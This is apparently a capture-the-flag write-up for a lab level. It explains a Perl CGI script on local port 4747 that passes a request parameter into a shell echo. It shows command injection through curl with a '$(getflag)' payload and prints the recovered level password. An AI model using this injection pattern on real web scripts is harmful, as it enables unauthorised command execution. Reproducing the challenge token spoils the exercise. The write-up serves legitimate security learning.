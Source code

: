 ## LEVEL04  
  
### PERL (.pl)  
`level04.pl`  
`.pl` files are Perl scripts. They are primarily designed for manipulating text.  
  
## SCRIPT  
`#localhost:4747`  
This implies that the script is run/used via port 4747 on the machine.  
`use CGI qw{param};`  
CGI is a protocol that allows scripts to be executed via web requests.  
This means the script is linked to a local server and is likely used to test simple commands remotely.  
`sub x`  
Subroutine, which is essentially a function, where `$y` is declared and takes the value of the first argument (`$_[0]`) passed to the subroutine `x`, similar to `argv` in C.  
`print echo $y 2>&1;`  
Simply prints the value of `$y` to the standard output, and `2>&1` redirects errors to the standard output.  
`x(param("x"))`  
The subroutine is called with `x` as the argument.  
  
## CURL REQUEST  
`curl "http://localhost:4747/?x=ls"`  
This displays `ls` via the script using echo. However, we want to execute commands and receive their output.  
Instead of `?x=`, we use `x=\$(ls)`, which also executes the command but, more importantly, captures its output.  
  
## GETFLAG TOKEN  
`curl "http://localhost:4747/?x=\$(getflag)"`  
token_passwd_level05: `ne2searoevaevoem4ov4ar8ap`  
